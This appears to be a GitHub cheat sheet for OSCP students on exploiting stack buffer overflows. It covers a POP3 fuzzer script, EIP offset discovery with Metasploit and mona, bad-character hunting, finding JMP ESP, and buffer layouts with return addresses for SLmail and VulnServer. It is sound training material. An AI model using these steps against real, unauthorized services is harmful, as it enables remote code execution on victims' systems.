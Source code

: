 # Buffer Overflow Steps for OSCP
## High Level Steps
Buffer overflows will start with an entry point, usually a PoC buffer overflow which causes a crash with not remote code execution. Given this follow the steps below. Each iteration below requires crashing the service each time with immunity attached.
1) [Fuzz the service to replicate the crash in python](#fuzzing)
2) [Create a stand alone crash script](#create-standalone-crash-script)
3) [Find the offset of the EIP overwrite](#find-the-offset-of-the-eip-overrite)
4) [Target and overwrite the EIP](#target-and-overwrite-the-eip)
5) [Find the bad chars for this application](#find-the-bad-chars-for-this-application)
6) [Find code to jump to ESP](#find-code-to-jump-to-esp)
7) [Set a breakpoint on the jump to make sure it works](#set-a-breakpoint-on-the-jump-to-make-sure-it-works)
8) [Generate a payload with MSF and add some no-ops before it](#generate-a-payload-with-msf-and-add-some-no-ops-before-it)
## Fuzzing
Iterate over chunks of data to find a ball park for where the crash is.

Sample Fuzzer
```python

import socket
buff = ["A"]
counter = 100

while( len(buff) <= 30 ):
	buff.append("A"*counter)
	counter=counter + 200
for string in buff:
	try:
		s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		print("Fuzzing PASS with {} bytes ".format(len(string)))
		s.connect(("10.11.11.42", 110))
		data = s.recv(1024)
		print (data)

		s.send('USER test\r\n')
		data = s.recv(1024)
		print(data)

		s.send('PASS ' + string + '\r\n')
		data = s.recv(1024)
		print(data)

		s.send('QUIT\r\n')

		s.close()
		print("Done")
	except Exception as e:
		print("could not connect to pop 3 because {}".format(e))
```

## Create Standalone Crash Script
Remove the fuzzing from the script and just send the chunk of A's which cause the crash

## Find the offset of the EIP overwrite
Generate a pattern the same length of the A's sent in and make that the payload.
```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <LENGTH>
```
Make this the payload and resend to the application. Once it's crashed, use mona to find the pattern offset.
```
!mona findmsp
```

## Target and overwrite the EIP
Overrite the EIP with 'B' by changing the payload to
```python
payload = "A"*find_msp_offset+"B"*4+"C"*remaining_length
```

## Find the bad chars for this application
Use mona and the crash script to find these. If the application is netascii (telnet, ftp, smtp, ect), then there are 3 off the bat, "\x00\x0a\x0d".

```python
bc="\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f"
"\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```

Remove 0x00,0x0A,0x0D if netascii from the list

Send to the exploit up and wait for the crash

Use mona to find the bad chars.

Generate the local bad chars compare file
```
!mona config -set workingfolder c:\logs\%p
!mona bytearray
```
if netascii, do,
```
!mona bytearray -epb "\x00\x0a\x0d"
``` 

Run mona to find bad chars. Get the address in the ESP.
```
!mona compare -f C:\logs\<app-name>\bytearray.bin -a <address-in-esp>
```

Once a bad char is found, remove from the payload in the python code, regenerate the bytearray in mona and reexploit until the buffers match.

Regenerate byte code without 0xef
```
!mona bytearray -epb "\xef"
```

## Find code to jump to ESP
Find characters with decodes to op codes to in Non-DEP Non-ASLR modules in the code

```
!mona jmp -r esp
```
or
```
!mona find -s “\xff\xe4” 
```

Can search in a specific non-aslr'd module via this:

```
!mona find -s “\xff\xe4” -m <module>
```

## Set a breakpoint on the jump to make sure it works
Set a breakpoint on the jump location to make sure the overwrite of the EIP is correct. 

In immunity, set a break point by navigating to the module section and jumping to the location.

1) window -> modules
2) Select module jump code is in
3) CTRL+G, then type in address
4) Right click on code segment and select "Toggle Breakpoint"
5) May have to select decompile / decode from the context menu to see it as op-codes.

## Generate a payload with MSF and add some no-ops before it
Generate the payload with MSFVenom. Make sure the bad chars are specified as well. When adding to the exploit code, append some no-ops. If the exploit isn't working, e.g. the application is still crashing in immunity keep adding no-ops.

```python
# SLmail
buffer="A"*2606 + "\x8f\x35\x4a\x5f" + "\x90" * 8 + buf

# VulnServer
req1 = "AUTH " + "A"*1040 + "\x71\x1d\xd1\x65" + "\x90" * 32 + buf
```

## References

Using Immunity

http://www.fuzzysecurity.com/tutorials/expDev/2.html

Finding Bad Chars

https://bulbsecurity.com/finding-bad-characters-with-immunity-debugger-and-mona-py/
